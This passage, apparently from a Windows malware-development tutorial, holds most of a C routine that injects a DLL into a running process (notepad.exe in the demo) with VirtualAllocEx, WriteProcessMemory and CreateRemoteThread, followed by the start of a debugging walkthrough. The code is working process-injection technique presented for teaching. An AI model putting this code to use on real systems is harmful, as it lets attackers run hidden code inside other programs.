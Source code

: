 ```
	HANDLE		hThread                   = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

	printf("[i] Executing Payload ... ");
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");


_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return bSTATE;
}

```
### **Debugging**

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

First, run `RemoteDllInjection.exe` and pass two arguments, the target process and the full DLL path to inject inside the target process. In this demo, `notepad.exe` is being injected.
